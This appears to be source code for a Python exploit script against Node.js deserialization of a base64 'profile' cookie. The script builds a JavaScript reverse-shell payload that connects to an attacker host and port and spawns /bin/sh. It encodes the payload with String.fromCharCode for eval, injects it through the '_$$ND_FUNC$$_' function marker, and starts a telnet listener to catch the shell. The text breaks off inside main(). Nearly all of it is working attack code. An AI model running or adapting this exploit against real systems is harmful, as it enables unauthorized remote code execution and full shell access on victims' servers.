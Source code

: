 ```py
# Setting up the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to mount the payload
def mountPayload(lhost,lport):
	payload = ''
	payload += "var net = require('net');\n"
	payload += "var spawn = require('child_process').spawn;\n"
	payload += "HOST='%s';\n" %lhost
	payload += "PORT='%s';\n" %lport
	payload += "TIMEOUT='5000';\n"
	payload += "if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }\n"
	payload += "function c(HOST,PORT) {\n"
	payload += "    var client = new net.Socket();\n"
	payload += "    client.connect(PORT, HOST, function() {\n"
	payload += "        var sh = spawn('/bin/sh',[]);\n"
	payload += "        client.write('Connected!');\n"
	payload += "        client.pipe(sh.stdin);\n"
	payload += "        sh.stdout.pipe(client);\n"
	payload += "        sh.stderr.pipe(client);\n"
	payload += "        sh.on('exit',function(code,signal){\n"
	payload += "          client.end('Disconnected!');\n"
	payload += "        });\n"
	payload += "    });\n"
	payload += "    client.on('error', function(e) {\n"
	payload += "        setTimeout(c(HOST,PORT), TIMEOUT);\n"
	payload += "    });\n"
	payload += "}\n"
	payload += "c(HOST,PORT);"
	return payload

# Function to encode it
def charencode(string):
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

def sendRequest(rhost,nodejs_payload):
	exploit = '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(%s))}()"}' %nodejs_payload
	exploit = base64.b64encode(bytes(exploit, 'utf-8'))
	exploit = exploit.decode('utf-8')
	url = "http://%s:3000/" %rhost
	cookies = {"profile": "%s" %exploit}
	r.get(url, cookies=cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
```